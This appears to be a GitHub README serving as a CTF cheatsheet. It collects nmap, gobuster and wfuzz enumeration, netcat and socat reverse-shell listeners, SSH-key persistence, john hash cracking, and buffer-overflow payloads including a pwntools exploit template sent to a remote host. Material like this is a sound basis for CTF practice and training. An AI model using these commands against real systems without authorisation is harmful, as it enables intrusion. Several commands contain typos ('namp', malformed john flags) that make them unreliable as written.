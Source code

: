 # ctf-cheatsheet
This repo comprises useful code bytes for solving common ctf tasks.
## initial tasks and enumeration
## linux privileges
##### exploits/privesc for common binaries
https://gtfobins.github.io/
##### create python webserver
```
python -m SimpleHTTPServer 4004
python3 -m http.server 4004
```
##### listen for reverse shell connection
```bash
nc -lvp 1234
# or
socat file:`tty`,raw,echo=0 tcp-listen:12345
```
##### add ssh key to trusted (login)
```bash
echo "public key on kali" >> authorized_keys
```
##### upgrade shell with python

python -c 'import pty; pty.spawn("/bin/bash")'
```
##### get current user
```bash
whoami
```
##### change user to username
```bash
su - username
```
##### check, what can be executed with root
```bash
sudo -l
```
##### enumerate linux system (for example with www-data user)
```bash
https://github.com/rebootuser/LinEnum
```
## reverse hash
```bash
john hashes.txt --word-list=/usr/share/wordlists/somelist.txt --fformat-Raw-SHA256 --show
```
## linux network
##### change hosts file
```bash
sudo nano /etc/hosts
```

##### portscan
###### nmap, initial scan (scans ~1000 scans)
```bash
nmap -Pn -n -oN nmap_initial.txt 10.10.10.10
nmap -sV -sT -sC -o nmap_initial2.txt 10.10.10.10
```
###### nmap, full port scan
```bash
namp -A -p- -oN nmap_full.txt 10.10.10.10
```
###### nmap, target scan on port 20 and 80
```bash
nmap -Pn -n -p22,80 -sC -sV -oN nmap/targeted 10.10.10.10
```
##### scan for folders and files
###### gobuster, search for folders
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt
```
###### gobuster, search for files (.txt / .php / etc)
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt -x txt
```
##### scan for subdomains
1) add domain to hosts
2) run wfuzz (here: hide results with code 301)
```bash
wfuzz -c -w /home/path/subdomains.txt -u "http://domain.com" -H "Host: FUZZ.domain.com" -t 50 --hc 301
```
##### http GET/POST methods
###### curl GET with --data 
```bash
curl --get -d name=admin -d shoesize=12 http://example.com/
```
###### curl POST with --data 
```bash
curl -d name=admin -d shoesize=12 http://example.com/
```
###### wfuzz enumerate POST with --data
```bash
wfuzz -c -d "username=FUZZ&password=n00bsec" -w /usr/share/seclists/Usernames/Names/names.txt -u http://10.10.10.73/login.php
```

## buffer overflow
##### execute locally, string as text input
###### bash
```bash
run <<< $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08" + "\x43" * 4 + "\xef\xbe\xad\xde"+ "\x0d\xd0\xde\xc0" )')
```
##### execute remotely, string as text input
###### bash
```bash
echo $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08")') | nc 123.123.123.123 32123
```
###### pwntools
```bash
from socket import socket
from pwn import *
ip = "sub.domain.com"
port = 1234
ret = 0x080491e2
no = 0x32432342
para_1 = 0xdedebebe
para_2 = 0xc0c00d0d
payload_len = 200 + 20
payload = "A" * payload_len
payload += p32(ret)
payload += p32(no)
payload += p32(para_1)
payload += p32(para_2)
r = remote(ip, port)
r.recvline()
r.sendline(payload)
r.interactive()
```

## linux binary debugger [gdb]
with peda plugin: https://github.com/longld/peda
###### useful commands
```bash
gdb ./file        # open binary in gdb
run               # r: run binary from start till to first breakpoint
break *0x080492c0 # set breakpoint to address
break main        # set breakpoint to beginning of main() function
info break        # show all breakpoints
-> del 1          # delete first breakpoint
continue          # c: continue execution till next breakpoint
next              # n: execute one line
x/300xb $esp      # show 300 bytes from stack (esp)
```

## python packages
##### build python package
```bash
python3 setup.py sdist bdist_wheel
```

##### upload with twine
```bash
python3 -m twine upload --repository-url http://pypi.domain.com:8080 /home/path/dist/* --verbose
```
-> enter username and password

### good writeupts:
https://noobsec.net/hackthebox/htb-falafel-writeup-w-o-metasploit/